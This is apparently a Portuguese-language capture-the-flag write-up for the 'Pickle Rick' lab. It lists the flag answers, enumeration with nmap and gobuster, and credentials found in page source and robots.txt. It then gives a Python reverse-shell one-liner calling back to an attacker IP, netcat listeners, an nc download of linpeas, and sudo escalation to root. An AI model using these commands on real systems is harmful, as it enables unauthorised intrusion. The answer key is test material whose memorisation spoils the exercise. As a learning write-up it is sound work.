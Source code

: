 # Lab: Pickle Rick (Easy Mode)

## Capture The Flags (CTF):

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

1) Atribuição de Valores

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte Inspecionada:** 
`http://10.10.89.179/` -> **Username:** `R1ckRul3s`

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```

**Diretórios e Arquivos Encontrados:**
`/assets/`
`/robots.txt` -> `Wubbalubbadubdub`
`/login.php` -> Username: `R1ckRul3s` , Password: `Wubbalubbadubdub`
`/portal.php` -> (INFO: Após Login!) -> `Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)`


**Flags Identificadas:**
`Sup3rS3cretPickl3Ingred.txt:` `mr. meeseek hair` (INFO: FLAG!)
`clue.txt:` `Look around the file system for the other ingredient.`


**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Encontrado. Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
`rabbit hole`

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```

**Reverse Shell (Github Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
**Erro apresentado:**
`/bin/sh: 0: can't access tty; job control turned off`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```

**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Identificação:**
`(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)`

**Escalação para Root:**
```bash
sudo bash
```

**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```

**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
